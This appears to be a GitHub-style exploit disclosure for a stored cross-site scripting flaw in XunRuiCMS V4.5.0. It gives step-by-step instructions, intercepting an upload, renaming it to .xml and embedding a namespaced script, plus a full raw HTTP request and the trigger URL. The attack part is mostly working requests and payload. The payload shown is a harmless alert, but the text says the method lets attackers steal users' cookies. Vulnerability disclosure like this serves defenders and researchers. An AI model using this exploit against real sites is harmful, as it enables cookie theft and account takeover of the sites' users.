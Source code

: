 ## Information

```c
Exploit Title:XunRuiCMS-V4.5.0-Cross Site Scripting(XSS)
Exploit date:26.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.xunruicms.com/
Affect Version:V4.5.0
Description:There is an XSS vulnerability in XunRuiCMS-V4.5.0. Attackers can steal users' cookies and other information by constructing malicious request packets
```

## How to Exploit

**Step 1：Register a user**

```javascript
http://192.168.174.1/index.php?s=member&c=register&m=index
```

![register](img/register.png)

**Step 2:login with test1**

![login](img/login.png)

**Step 3:Visit the following connections to add content**

```javascript
http://192.168.174.1/index.php?s=member&app=news&c=home&m=add
```

![content](img/content.png)

Upload a picture and grab it with burpsuite:

![img](img/img.png)

After that, change the action in the request packet to UploadFile, and modify the suffix of the uploaded file to. XML. At the same time, modify the file content to the following exp

```xml
<html>
	<head></head>
	<body>
	<something:script xmlns:something="http://www.w3.org/1999/xhtml">
	alert('xss');
	</something:script>
	</body>
</html>
```

```javascript
POST /index.php?s=api&c=file&token=791f80cd435d7a2e350c4d2235c94725&m=ueditor&image_reduce=0&attachment=0&is_wm=&rid=d1b9c89bd8165b2e46a19ebe133f1eac&action=uploadfile HTTP/1.1
Host: 192.168.174.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------19977857242961287651849315350
Content-Length: 372
Origin: http://192.168.174.1
Connection: close
Cookie: PHPSESSID=r9t36f9b1qok6079c54h41q61f; Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1621906612; Hm_lpvt_eaa57ca47dacb4ad4f5a257001a3457c=1621999942; loginfalse=0; xunruicms_fd8863ba386af397767b7e90ae5728d3=1gut09hupjp7jk79bi0naghgqmjic39n; fd8863ba386af397767b7e90ae5728d3_member_uid=2; fd8863ba386af397767b7e90ae5728d3_admin_login_member=0; fd8863ba386af397767b7e90ae5728d3_member_cookie=f466a2d4518d66bf9940
Upgrade-Insecure-Requests: 1

-----------------------------19977857242961287651849315350
Content-Disposition: form-data; name="upfile"; filename="1.xml"
Content-Type: image/png

<html>
	<head></head>
	<body>
	<something:script xmlns:something="http://www.w3.org/1999/xhtml">
	alert('xss');
	</something:script>
	</body>
</html>
-----------------------------19977857242961287651849315350--

```

After that, you can see the successful upload of the XML file:

![upload](img/upload.png)

After that, the attacker can cheat other users to view the file and trigger malicious XSS code:

```javascript
http://192.168.174.1/uploadfile/ueditor/file/202105/1622000649474d71.xml
```

![xss](img/xss.png)

## Reference

https://www.xunruicms.com/



